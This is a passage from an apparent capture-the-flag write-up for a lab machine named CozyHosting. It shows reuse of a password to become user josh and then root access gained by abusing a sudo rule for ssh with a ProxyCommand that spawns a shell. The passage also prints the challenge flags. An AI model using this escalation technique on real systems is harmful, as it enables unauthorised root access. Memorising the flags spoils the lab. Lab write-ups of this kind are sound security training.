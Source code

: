 Password reuse

```bash
app@cozyhosting:/app$ su - josh
Password:manchesterunited
josh@cozyhosting:~$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
josh@cozyhosting:~$ cat user.txt
67aea6149c2981ab37704fc5839cd071
```

# Root Flag
---

## From josh to root

Simple `gtfobin`

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

> https://gtfobins.github.io/gtfobins/ssh/#sudo

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
b072647f1011c4752e2a7ec4d7327da6
```

# Additional
---

## Failed Attempts


### Brute Force login
